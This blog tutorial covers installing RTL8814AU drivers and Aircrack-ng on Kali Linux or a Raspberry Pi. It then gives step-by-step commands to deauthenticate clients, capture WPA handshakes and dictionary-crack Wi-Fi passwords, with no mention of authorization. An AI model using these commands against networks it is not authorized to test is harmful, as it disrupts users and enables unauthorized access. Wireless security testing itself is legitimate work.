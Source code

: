 ```yaml
---
title: 'Using Aircrack-ng with RTL8814AU'
date: '2019-07-28'
lastmod: '2019-07-28'
tags: [Airmon-ng, Aircrack-ng, RTL8814AU, RTL8812AU, Wi-Fi, Kali Linux, Raspberry Pi, ARM]
type: Blog
draft: false
summary: "Setting up and using Aircrack-ng wireless security tools with the RTL8814AU chipset on Linux, including driver installation, monitor mode configuration, and practical wireless testing applications."
license: CC BY-SA 4.0
---
```

For Kali Linux users who want to hack 2.4/5GHz Wi-Fi.
RTL8812AU/21AU and RTL8814AU are the best chipsets.

Here's the wifi dongle I'm going to use: [TP-LINK Archer T9UH](https://wikidevi.com/wiki/TP-LINK_Archer_T9UH)

![Archer-T9UH.png](/static/images/Archer-T9UH.webp)

Here's the wifi driver I'm going to use: [aircrack-ng/rtl8812au](https://github.com/aircrack-ng/rtl8812au.git)

## Installing Driver

Plug-in your Wi-Fi dongle. Execute `lsusb`.

```sh
lsusb
```

![Archer-T9UH-lsusb.png](/static/images/Archer-T9UH-lsusb.webp)

Check if the device ID is supported by the [driver](https://github.com/aircrack-ng/rtl8812au/blob/v5.6.4.1/os_dep/linux/usb_intf.c#L259)

```c
{USB_DEVICE(0x2357, 0x0106), .driver_info = RTL8814A}, /* TP-LINK Archer T9UH */
```

The ID of TP-LINK Archer T9UH is `2357:0106`.

Clone the project

```sh
git clone https://github.com/aircrack-ng/rtl8812au.git
```

RTL8814AU is newer than RTL8812AU.

Some improvements come with the latest version.

Checkout to the newest git branch.

```sh
git checkout v5.6.4.1
```

The installation is pretty easy. Just use the script.

```sh
sudo apt install dkms
sudo ./dkms-install.sh
```

If you are using ARM CPU such as Raspberry Pi. Change platform in Makefile.

e.g. I'm using RPI 3 B+ with the official Raspbian OS. It's 32 bit.

```sh
sed -i 's/CONFIG_PLATFORM_I386_PC = y/CONFIG_PLATFORM_I386_PC = n/g' Makefile
sed -i 's/CONFIG_PLATFORM_ARM_RPI = n/CONFIG_PLATFORM_ARM_RPI = y/g' Makefile
```

If you are using Kali Linux. You can also install the driver from source.

```sh
sudo apt install realtek-rtl88xxau-dkms
```

## Installing Aircrack-ng

(Aircrack-ng is preinstalled in Kali Linux)

```sh
sudo apt install aircrack-ng
```

Here's the official instruction: [Installing pre-compiled binaries](https://aircrack-ng.org/doku.php?id=install_aircrack#installing_pre-compiled_binaries)

If you want to compile it on your own.

The latest stable version is 1.5.2 currently.

```sh
git clone https://github.com/aircrack-ng/aircrack-ng.git
cd aircrack-ng
git checkout 1.5.2
```

```sh
sudo apt install build-essential autoconf automake libtool pkg-config libnl-3-dev libnl-genl-3-dev libssl-dev ethtool shtool rfkill zlib1g-dev libpcap-dev libsqlite3-dev libpcre3-dev libhwloc-dev libcmocka-dev hostapd wpasupplicant tcpdump screen iw usbutils
```

```sh
./autogen.sh
make
make install
```

## Monitoring Wi-Fi

Check interfaces

```sh
sudo airmon-ng
```

```sh
PHY	Interface	Driver		Chipset

phy0	wlan0		brcmfmac	Broadcom 43430
phy1	wlan1		88XXau		TP-Link
```

Kill all possible programs that could interfere with the wireless card.

```sh
sudo airmon-ng check kill
```

Turn wlan1(RTL8814AU) into monitor mode.

```sh
sudo airmon-ng start wlan1
```

OR

```sh
sudo iwconfig wlan1 mode Monitor
```

Then

```sh
sudo airodump-ng wlan1
```

OR indicate the band 'a' to hop 5GHz

```sh
sudo airodump-ng wlan1 -b a
```

## Crack WPA/WPA2 Wi-Fi Password

Capture Data

```sh
sudo airodump-ng -c 36 –d XX:XX:XX:XX:XX:XX -w hack wlan1
```

De-authenticate the connected clients with `aireplay-ng`

`-0` means de-auth, 50 means 50 counts.  
`-a` sets Access Point MAC address.  
`-c` sets destination MAC address.  

```sh
sudo aireplay-ng -0 50 -a XX:XX:XX:XX:XX:XX -c [Client MAC Address] wlan1
```

You'll get a WPA handshake

![WPA-handshake.png](/static/images/WPA-handshake.webp)

Crack password with dictionary-attack

```sh
aircrack-ng -b XX:XX:XX:XX:XX:XX hack-01.cap -w /path/to/wordlist
```

Here is a project on GitHub for dictionary-attack: [Probable-Wordlists](https://github.com/berzerk0/Probable-Wordlists)

## Speed up Crack with Airolib-ng

>Airolib-ng is an aircrack-ng suite tool designed to store and manage essid and password lists, compute their Pairwise Master Keys (PMKs) and use them in WPA/WPA2 cracking.

### Download Passwords dictionary

[Probable-Wordlists Downloads](https://github.com/berzerk0/Probable-Wordlists/blob/master/Downloads.md)

### Setting up the database

#### Create SSID list

```sh
airolib-ng wpaDatabase --import essid ssidlist.txt
```

#### Create Password list

```sh
airolib-ng wpaDatabase --import passwd passwords.txt
```

#### Clean Database

```sh
airolib-ng wpaDatabase --clean all
```

#### Create your PMK’s

```sh
airolib-ng wpaDatabase --batch
```

#### Cracking

```sh
aircrack-ng -r wpaDatabase hack-01.cap
```

